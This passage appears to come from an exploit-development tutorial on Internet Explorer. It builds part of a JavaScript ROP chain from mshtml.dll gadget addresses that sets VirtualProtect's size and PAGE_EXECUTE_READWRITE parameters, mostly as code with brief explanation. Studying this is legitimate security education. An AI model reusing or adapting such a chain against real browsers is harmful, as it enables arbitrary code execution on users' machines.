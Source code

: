 Next up is the size of our shellcode. We will be specifying `0x401` bytes for our shellcode, as this is _more_ than enough for a shell.

```js
rop += "\ubfd3\u750c";                     // pop eax ; ret (750cbfd3) (mshtml.dll) Place the negative representation of 0x401 in EAX
rop += "\ufbff\uffff";  				   // Value from above
rop += "\u8cf0\u7504";                     // neg eax ; ret (75048cf0) (mshtml.dll) Place the actual size of the shellcode in EAX
rop += "\uc4d4\u74e4";                     // inc ecx ; ret (74e4c4d4) (mshtml.dll) Increment ECX to get the stack address containing the dwSize parameter placeholder
rop += "\uc4d4\u74e4";                     // inc ecx ; ret (74e4c4d4) (mshtml.dll) Increment ECX to get the stack address containing the dwSize parameter placeholder
rop += "\uc4d4\u74e4";                     // inc ecx ; ret (74e4c4d4) (mshtml.dll) Increment ECX to get the stack address containing the dwSize parameter placeholder
rop += "\uc4d4\u74e4";                     // inc ecx ; ret (74e4c4d4) (mshtml.dll) Increment ECX to get the stack address containing the dwSize parameter placeholder
rop += "\u8d86\u750c";                     // mov dword [ecx], eax ; ret (750c8d86) (mshtml.dll) Arbitrary write to overwrite stack address with parameter placeholder for dwSize, with the size of our shellcode
````

Similar to last time, we know we cannot place `0x00000401` on the stack, as it contains NULL bytes. Instead, we load the negative representation into EAX and negate it. We also know the `dwSize` parameter placeholder is 4 bytes after the `lpAddress` parameter placeholder. We increase ECX, which has the address of the `lpAddress` placholder, by 4 bytes to place the `dwSize` placeholder in ECX. Then, we leverage the same arbitrary write gadget again.

<img src="{{ site.url }}{{ site.baseurl }}/images/browser55.png" alt="">

Perfect! We will leverage the _exact_ same routine for the `flNewProcect` parameter. Instead of the negative value of `0x401` this time, we need to place `0x40` into EAX, which corresponds to the memory constant `PAGE_EXECUTE_READWRITE`.

```js
rop += "\ubfd3\u750c";                     // pop eax ; ret (750cbfd3) (mshtml.dll) Place the negative representation of 0x40 (PAGE_EXECUTE_READWRITE) in EAX
rop += "\uffc0\uffff";  				   // Value from above
rop += "\u8cf0\u7504";                     // neg eax ; ret (75048cf0) (mshtml.dll) Place the actual memory constraint PAGE_EXECUTE_READWRITE in EAX
rop += "\uc4d4\u74e4";                     // inc ecx ; ret (74e4c4d4) (mshtml.dll) Increment ECX to get the stack address containing the flNewProtect parameter placeholder
rop += "\uc4d4\u74e4";                     // inc ecx ; ret (74e4c4d4) (mshtml.dll) Increment ECX to get the stack address containing the flNewProtect parameter placeholder
rop += "\uc4d4\u74e4";                     // inc ecx ; ret (74e4c4d4) (mshtml.dll) Increment ECX to get the stack address containing the flNewProtect parameter placeholder
rop += "\uc4d4\u74e4";                     // inc ecx ; ret (74e4c4d4) (mshtml.dll) Increment ECX to get the stack address containing the flNewProtect parameter placeholder
rop += "\u8d86\u750c";                     // mov dword [ecx], eax ; ret (750c8d86) (mshtml.dll) Arbitrary write to overwrite stack address with parameter placeholder for flNewProtect, with PAGE_EXECUTE_READWRITE
````

<img src="{{ site.url }}{{ site.baseurl }}/images/browser56.png" alt="">
